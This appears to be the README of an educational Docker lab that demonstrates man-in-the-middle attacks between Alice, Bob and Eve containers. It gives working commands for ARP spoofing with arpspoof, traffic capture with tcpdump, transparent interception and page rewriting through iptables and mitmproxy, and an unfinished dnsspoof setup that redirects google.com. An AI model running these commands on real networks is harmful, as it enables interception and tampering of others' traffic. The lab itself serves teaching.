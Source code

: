 # Man in the Middle Attack Demo using Docker

- Adapted from: [https://github.com/kientuong114/docker-mitm/tree/main](https://github.com/kientuong114/docker-mitm/tree/main)

The tools used are [mitmproxy](http://mitmproxy.org), [arpspoof](https://www.monkey.org/~dugsong/dsniff/) and [Docker](http://www.docker.com)

## Setup

There are 3 containers, Bob (Server), Alice (Client) and Eve (Attacker).

- **Bob**: is hosting an http server, serving the files contained in `server_files`
- **Alice**: is a container with Firefox running on it. To connect to firefox from the host, visit `http://localhost:5800`.
- **Eve**: is a container meant to be used via bash. To run commands, just run `docker exec -it mitm_eve /bin/bash`. This container has the `attacker_files` folder mounted on the container as `/eve`

The three containers are connected together with a docker bridge network called `mitm`.
Firefox didn't work when networks configuration was provided.

## How to run the demo

1. Install Docker, docker-compose, then run `docker-compose up -d`
2. Connect to Alice's Firefox instance and visit `http://bob/`. This should show the actual website served by Bob
3. You may also connect to alice via command line (`docker exec -it alice sh`) and see which MAC address corresponds to Bob's IP address
4. Open 2 instances of bash on Eve's container (or, equivalently, install and use tmux with two splits) (`docker exec -it eve bash`) and run the `dig` command to discover the IPs of Alice and Bob:

```bash
ifconfig eth0 promisc # enable promiscuous mode
sysctl -w net.ipv4.ip_forward=1 # enable IP forwarding
arp -n
ip -s -s neigh flush all # clear ARP cache
apt update && apt install -y dnsutils nmap
nmap -sn 172.18.0.0/24 # discover IPs in the network using ping scan
dig alice
dig bob
ping -c 1 alice
ping -c 1 bob
arp -n
```

5. With this information, now run arspoof twice, once for each bash instance.

In the attacker's Terminal:

```bash
arpspoof -t <alice_ip> -r <bob_ip>
```

Also you could explictly spoof two targets on two Terminals:

```bash
arpspoof -t <alice_ip> <bob_ip>
arpspoof -t <bob_ip> <alice_ip>
```

Verify in Alice's `bash` Terminal that `ip neighbor or arp -n` shows that Bob's IP is now associated to Eve's MAC address, meaning that the ARP spoofing was successful.

### Using netcat and tcpdump to see the traffic

- In Eve/attacker container, run `tcpdump -i eth0 -w mitm.pcap` to capture all the traffic in a pcap file
- In Alice's container, run `nc -l -p 1234 > received_file` to listen on port 1234 and write everything received to a file
- In Bob/server container, run `echo "Hello from Bob" | nc <alice_ip> 1234`
- In Alice/client container, check the contents of `received_file` to see the message from Bob
- In Eve/attacker container, stop tcpdump and open `mitm.pcap` with Wireshark/tcpdump to see the traffic

```bash
tcpdump -r mitm.pcap | grep "Bob"
```

- You should see the message from Bob in cleartext

### Using mitmproxy to modify the traffic

1. From host browser, go to http://localhost:5800 to connect to Alice's Firefox instance. From the internal browser Alice can use browser normally.
2. Now run the `add_iptables_rule.sh` script in the `eve` folder. This will add a rule to `iptables` to forward every packet with destination port 80 to the proxy
3. You may verify that Alice's browser will give an error when reloading the page. This is because Eve is not blocking the packets in iptables and forwarding them to the proxy. Since the proxy is not active yet, the packets are simply dropped.
4. activate the proxy in passive mode:

```bash
mitmproxy -m transparent
```

5. Reload the browser page: the legit page will show again, but mitmproxy will show that the request passed through Eve
6. shut down the proxy and activate it again, this time with the script that modifies the contents of the page:

```bash
mitmproxy -m transparent -s proxy.py
```

7. Reload the browser page: the attacker has changed the contents of the website.
8. To shut down everything use the `del_iptables_rul.sh` script in the `eve` folder to remove the iptables rule and turn off the two arpspoof instances

### Note

- If the browser shows legit content instead of the modified one, make sure clear all the browser cookies, cache and everything from Privacy & Security page and reload the page

## DNS Spoof - Not Working YET

1. Connect to client's firefox browser from system. Open browser on system and go to http://localhost:5800

   - go to google.com from client's firefox and make sure it's a legit domain

2. Create fake DNS hosts file on the attacker's container

   - use server's ip for demo

   ```bash
   dig server
   echo -e '<fake_server_ip>\twww.google.com' > hosts
   dnsspoof -i eth0 -f hosts
   ```

3. Run arpspoof on gateway (usually: _._.0.1) and the client/victim from attacker's machine

   - Connect to the attacker's Terminal, find gateway ip and run aprpsoof

   ```bash
   docker exec -it eve /bin/bash
   arp -n
   dig client
   arpspoof -i eth0 -t <gateway_ip ending with .1> -r <client_ip>
   ```

4. Browse google.com from client firefox again
